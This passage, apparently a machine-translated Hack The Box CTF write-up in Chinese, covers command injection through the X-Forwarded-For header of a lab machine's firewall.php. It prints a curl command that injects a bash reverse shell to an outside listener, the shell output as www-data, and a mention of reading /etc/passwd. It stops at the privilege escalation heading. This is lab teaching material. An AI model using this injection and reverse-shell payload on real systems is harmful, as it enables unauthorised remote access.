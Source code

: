 Firewall.php 来源

# x-转发-用于剥削

它使用 X-Forwarded-For (XFF)来识别客户端的原始 IP。我报道了利用这个[在这里](https://pencer.io/ctf/ctf-thm-sqhell/#flag-2---blindtime---curl-method)的一个试衣间。无需对用户输入进行净化，这可以很容易地操作。让我们用它再次获取/etc/passwd 文件:

![](img/97c9361393e417623772d722ab369386.png)

使用 X-FORWARDED-FOR 抓取 passwd 文件

# 反向外壳

这很有效，所以是时候获得一个反向外壳了。我刚刚使用了一个简单的 PenTestMonkey，在另一个终端中启动 nc 侦听，然后发送这个:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -X GET -H 'X-FORWARDED-FOR: ;bash -c "bash -i >& /dev/tcp/10.10.14.13/1337 0>&1";' --cookie "PHPSESSID=$PHPSESSID" 'http://10.10.11.128/firewall.php'
```

切换以查看我们已经连接了外壳:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.128] 35292
bash: cannot set terminal process group (805): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$
```

# 权限提升

乍一看，我认为所有的努力，我只获得作为 www-data，但检查 sudo 显示我们的路径到根是很好的和简单的:
